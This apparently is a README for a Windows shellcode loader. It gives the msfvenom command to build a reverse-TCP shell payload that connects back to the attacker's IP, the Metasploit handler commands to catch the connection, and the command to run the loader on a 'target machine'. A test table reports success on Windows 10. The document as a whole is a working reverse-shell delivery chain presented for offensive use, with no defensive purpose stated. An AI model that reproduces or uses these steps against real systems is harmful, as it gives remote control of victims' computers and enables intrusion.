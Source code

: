 # shell_code_loader

### How it's work ?

###### Generate the shell_code payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=X.X.X.X LPORT=80 -f csharp > shell_code.txt
```
- LHOST : is equal to the attacker ip addr  
- LPORT : you can use the port value of your choice  

###### Metasploit
Open metasploit console
```
msfconsole
```

Use the following command
```
use exploit/multi/handler
ENTER
set payload windows/shell_reverse_tcp
ENTER
set LPORT 80
ENTER
set LHOST X.X.X.X
ENTER
run
```

###### Execute on target machine
On windows open a cmd or powershell terminal
```
./shell_code_loader.exe shell_code.txt
```

### Tests
| Edition  | Version  | OS Version | Date | Result |
| :------- |:-------- | :--------- | :--- | :----- |
Windows 10 Familly | 21H1 | 19043.928 | 15/07/2022 | OK |

### References
https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
